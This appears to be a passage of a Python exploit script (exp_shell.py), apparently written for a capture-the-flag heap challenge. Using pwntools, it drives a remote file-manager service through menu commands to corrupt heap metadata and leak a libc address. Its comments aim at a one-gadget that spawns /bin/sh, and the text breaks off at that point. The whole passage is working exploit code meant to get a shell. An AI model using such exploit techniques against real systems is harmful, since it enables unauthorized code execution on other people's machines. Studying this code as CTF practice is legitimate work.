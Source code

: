 ```python exp_shell.py
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88

    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
```